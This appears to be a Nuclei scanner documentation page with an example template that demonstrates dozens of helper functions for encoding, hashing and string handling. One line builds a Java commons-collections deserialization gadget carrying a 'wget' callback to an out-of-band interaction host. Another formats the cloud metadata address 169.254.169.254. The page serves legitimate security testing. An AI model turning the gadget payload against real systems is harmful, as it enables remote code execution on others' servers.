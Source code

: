```yaml
---
title: "Helper Functions Examples"
description: "Examples of the helper functions used in Nuclei Templates"
---
```


Nuclei has a number of helper functions that may be used to conduct various run-time operations on the request block. Here's an example template that shows how to use all the available helper functions.

```yaml
id: helper-functions-examples

info:
  name: RAW Template with Helper Functions
  author: pdteam
  severity: info

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        1: {{base64("Hello")}}
        2: {{base64(1234)}}
        3: {{base64_decode("SGVsbG8=")}}
        4: {{base64_py("Hello")}}
        5: {{compare_versions('v1.0.0', '>v0.0.1', '<v1.0.1')}}
        6: {{concat("Hello", "world")}}
        7: {{contains("Hello", "lo")}}
        8: {{contains_all("Hello everyone", "lo", "every")}}
        9: {{contains_any("Hello everyone", "abc", "llo")}}
        10: {{date_time("%Y-%M-%D")}}
        11: {{date_time("%Y-%M-%D", unix_time())}}
        12: {{date_time("%H-%m")}}
        13: {{date_time("02-01-2006 15:04")}}
        14: {{date_time("02-01-2006 15:04", unix_time())}}
        15: {{dec_to_hex(11111)}}
        16: {{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
        17: {{gzip("Hello")}}
        18: {{gzip_decode(hex_decode("1f8b08000000000000fff248cdc9c907040000ffff8289d1f705000000"))}}
        19: {{hex_decode("6161")}}
        20: {{hex_encode("aa")}}
        21: {{hmac("sha1", "test", "scrt")}} 
        22: {{hmac("sha256", "test", "scrt")}}
        23: {{html_escape("<body>test</body>")}}
        24: {{html_unescape("&lt;body&gt;test&lt;/body&gt;")}}
        25: {{join("_", "hello", "world")}}
        26: {{len("Hello")}}
        27: {{len(5555)}}
        28: {{md5("Hello")}}
        29: {{md5(1234)}}
        30: {{mmh3("Hello")}}
        31: {{print_debug(1+2, "Hello")}}
        32: {{rand_base(5, "abc")}}
        33: {{rand_base(5, "")}}
        34: {{rand_base(5)}}
        35: {{rand_char("abc")}}
        36: {{rand_char("")}}
        37: {{rand_char()}}
        38: {{rand_int(1, 10)}}
        39: {{rand_int(10)}}
        40: {{rand_int()}}
        41: {{rand_ip("192.168.0.0/24")}}
        42: {{rand_ip("2002:c0a8::/24")}}
        43: {{rand_ip("192.168.0.0/24","10.0.100.0/24")}}
        44: {{rand_text_alpha(10, "abc")}}
        45: {{rand_text_alpha(10, "")}}
        46: {{rand_text_alpha(10)}}
        47: {{rand_text_alphanumeric(10, "ab12")}}
        48: {{rand_text_alphanumeric(10)}}
        49: {{rand_text_numeric(10, 123)}}
        50: {{rand_text_numeric(10)}}
        51: {{regex("H([a-z]+)o", "Hello")}}
        52: {{remove_bad_chars("abcd", "bc")}}
        53: {{repeat("a", 5)}}
        54: {{replace("Hello", "He", "Ha")}}
        55: {{replace_regex("He123llo", "(\\d+)", "")}}
        56: {{reverse("abc")}}
        57: {{sha1("Hello")}}
        58: {{sha256("Hello")}}
        59: {{to_lower("HELLO")}}
        60: {{to_upper("hello")}}
        61: {{trim("aaaHelloddd", "ad")}}
        62: {{trim_left("aaaHelloddd", "ad")}}
        63: {{trim_prefix("aaHelloaa", "aa")}}
        64: {{trim_right("aaaHelloddd", "ad")}}
        65: {{trim_space("  Hello  ")}}
        66: {{trim_suffix("aaHelloaa", "aa")}}
        67: {{unix_time(10)}}
        68: {{url_decode("https:%2F%2Fprojectdiscovery.io%3Ftest=1")}}
        69: {{url_encode("https://projectdiscovery.io/test?a=1")}}
        70: {{wait_for(1)}}
        71: {{zlib("Hello")}}
        72: {{zlib_decode(hex_decode("789cf248cdc9c907040000ffff058c01f5"))}}
        73: {{hex_encode(aes_gcm("AES256Key-32Characters1234567890", "exampleplaintext"))}}
        74: {{starts_with("Hello", "He")}}
        75: {{ends_with("Hello", "lo")}}
        76: {{line_starts_with("Hi\nHello", "He")}}
        77: {{line_ends_with("Hello\nHi", "lo")}}
        78: {{ip_format("169.254.169.254", 4)}}
```